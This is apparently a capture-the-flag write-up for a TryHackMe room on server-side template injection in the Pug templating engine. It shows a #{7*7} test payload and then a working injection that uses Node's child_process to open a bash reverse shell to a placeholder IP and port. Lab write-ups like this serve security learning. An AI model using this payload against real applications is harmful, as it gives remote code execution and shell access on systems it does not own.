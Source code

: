 [Template Room Link](https://tryhackme.com/room/templates)
<H6>Introduction</H6>
My favourite type of dog is a pug... and, you know what, Pug is my favourite templating engine too! I made this super slick application so you can play around with Pug and see how it works. Seriously, you can do so much with Pug!.

First thing first i did is to research about the Pug template engine becasue this is my first time i heard it. After reasearching from the documentation of the [Pug official](https://pugjs.org/api/getting-started.html), im sure we can do SSTI.

![][../Images/Template-Image-1.png]

from the above image we can do SSTI with #{injection}, for the first payload i will test it with using 
```Js
#{7\*7}
```

![[../Images/Template-Image-2.png]]

then click convert will return this

![[../Images/Template-Image-3.png]]

after that we can further attack with different payload that can help up find the flag. In this case, i will try to make reverse shell that will connect to my computer with this payload
```Js
h1 #{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('bash -c "exec bash -i &>/dev/tcp/IP/PORT <&1"')}()}
```
that payload will make connection back to our computer we thay render the code

![[../Images/Template-Image-4.png]]

<H4>Link that can Help</H4>
[SSTI Cheat Sheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
